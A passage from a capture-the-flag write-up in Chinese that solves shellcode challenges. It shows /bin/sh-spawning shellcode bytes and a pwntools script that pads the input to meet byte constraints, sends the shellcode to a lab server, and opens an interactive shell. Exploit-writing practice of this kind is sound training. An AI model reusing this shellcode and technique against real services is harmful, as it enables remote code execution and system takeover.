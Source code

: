 ```
"
```
```
asm(shellcraft.amd64.linux.sh())
jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05
```
:::

### Result:
<img width="528" height="593" alt="image" src="https://github.com/user-attachments/assets/4aab4a05-588c-4c27-917e-443b32cf5663" />


## shellcodeplus

### Description:
相比上一個程式shellcodeplus多了兩個保護機制
1. buffer中不能有`0x90`這個字元(即NOP指令)
2. buffer當中0,6,12,18,24,30,36,42,48,54必須是`0x0c`，1,7,13,19,25,31,37,43,49,55必須是`0x87`
<img width="621" height="663" alt="image" src="https://github.com/user-attachments/assets/cedea727-139b-423b-a767-a424dc2877f4" />


### Sol:
根據以上的限制我們設計的payload如下：`b'\x0c\x87' + b'\x41\x41\x41\x41'`*10先建立好前面會被檢查的buffer，後續再加上pwnlib內建的shellcode機器碼即可
### Code:
```
from pwn import *

context.arch = 'amd64'

p = remote('ctf.adl.tw', 10003)

# 建立前 60 bytes的模式
pattern = b""
for _ in range(10):
    pattern += b"\x0c\x87" + b"\x41\x41\x41\x41"  # 使用 0x41 作為填充，避免 0x90

# 生成不含 0x90 的 Shellcode
shellcode = shellcraft.amd64.linux.sh()
compiled_shellcode = asm(shellcode)

final_payload = pattern + compiled_shellcode

p.sendline(final_payload)
p.interactive()

p.close()

```
